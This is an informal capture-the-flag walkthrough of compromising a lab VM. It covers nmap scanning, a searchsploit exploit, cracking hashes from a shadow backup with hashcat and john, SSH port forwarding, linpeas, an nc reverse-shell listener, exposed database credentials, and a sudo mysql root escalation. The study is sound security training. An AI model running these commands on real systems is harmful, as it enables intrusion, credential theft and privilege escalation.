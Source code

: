 
nmap -sV -sC 192.168.99.130 -oN results.txt



searchsploit -m 36742     => searchspoilt ka har twe ko copy loke dar


I try to check manually to exploit service , Finally i found => site command

![[Pasted image 20230109230012.png]]


I saw smb service is running so i enuman like this 

![[Pasted image 20230110215524.png]]

I got log file here 

![[Pasted image 20230110221642.png]]

In log file , we got it here 

![[Pasted image 20230110221747.png]]

and finally we exploit it.

![[Pasted image 20230110221544.png]]

Here is our exploit

![[Pasted image 20230110221827.png]]


Here is our second exploit from this path =>  /var/backups/shadow.bak  => get from log file
![[Pasted image 20230110222223.png]]

Here is username and password !

![[Pasted image 20230110225447.png]]

Let play with fun

using john  
![[Pasted image 20230110225606.png]]


Using hashcat  =>   That's too awesome

hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

1800  => dar ka  

![[Pasted image 20230110230152.png]]


I got it Lol!

![[Pasted image 20230110230811.png]]


=> ssh login 
username => aeolus
password => sergioteamo


---

Rooting Rootin Rooting

find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null    -> for suid  -> but see nothing 

uname -a 

cat /etc/*release  

gcc  -> for c


find / -user cronus -perm -4000 -exec ls -ldb {} \; 2>/dev/null   -> cuz we see cronus user in home 


we saw this two are comminunicate  haha

![[Pasted image 20230122230536.png]]


but we can do nothing so we use linpeas -> auto enumation tool 

i download linpeas with wget command 

and give full permission  -> chomd 777 linpeas barnyar

and then run ./linpeas

we found this one with linpeas
![[Pasted image 20230122232723.png]]

curl http://127.0.0.1:8080     => we check with this   

-> we are port forwarding  (Local  port forwarding)

ssh -L 8080:127.0.0.1:8080 aeolus@192.168.99.130

We add and run this machine with this exploit payload -> and using nc -lvp haha
![[Pasted image 20230123000916.png]]

and then check the cat config.php file we got this one

![[Pasted image 20230123001102.png]]

### Database config
$config['db_host'] = 'localhost';
$config['db_port'] = '3306';
$config['db_user'] = 'librenms';
$config['db_pass'] = 'VLby8dGg4rvw33sg';
$config['db_name'] = 'librenms';
$config['db_socket'] = '';
  
----> upper one ka har ka copy lot ya aung

we check with sudo -l

![[Pasted image 20230123001359.png]]

and then go to GTFO bin and search mysql  and then copy this one

```
sudo mysql -e '\! /bin/sh'
```

![[Pasted image 20230123001512.png]]

!!!!! Dump bro we got root

![[Pasted image 20230123001719.png]]
